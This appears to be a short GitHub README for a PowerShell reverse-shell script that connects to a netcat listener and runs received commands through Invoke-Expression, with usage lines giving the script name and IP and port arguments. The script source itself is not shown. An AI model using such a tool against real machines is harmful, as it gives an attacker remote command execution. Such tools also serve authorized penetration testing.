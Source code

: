 # PowerShell-Reverse-Shell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

# Usage:
./pwsh_revshell.ps1 
pwsh_revshell -ip 127.0.0.1 -port 3333
